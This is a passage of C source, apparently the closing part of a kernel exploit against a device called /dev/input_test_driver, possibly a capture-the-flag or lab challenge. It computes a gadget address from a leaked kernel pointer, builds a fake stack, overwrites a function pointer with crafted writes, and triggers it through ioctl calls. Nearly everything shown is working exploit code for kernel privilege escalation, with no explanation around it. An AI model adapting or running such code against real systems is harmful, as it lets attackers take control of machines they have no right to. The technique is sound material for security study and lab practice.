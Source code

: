 ``` c
                break;
        }
    }
    // step 2 : calculate the address of xchg_64
    printf("leak : 0x%lx\n", leak);
    xchg_64 = leak - 0xcdd5f;
    printf("xchg_64 : 0x%lx\n", xchg_64);

    close(fd1);
    close(fd2);

    // step 3 : set fake stack
    set_fake_stack(xchg_64);

    // step 4 : overwrite function pointer
    fd2 = open("/dev/input_test_driver", O_RDWR);
    memset(payload, 0x43, 392);
    write(fd2, payload, 416);
    write(fd2, payload, 0x500000);

    ioctl(fd2, 0x1337, NULL);

    *(uint64_t *)(payload + 408) = xchg_64;
    write(fd2, payload, 0x510000);

    ioctl(fd2, 0x7331, NULL);

    close(fd2);
    return 0;
}
```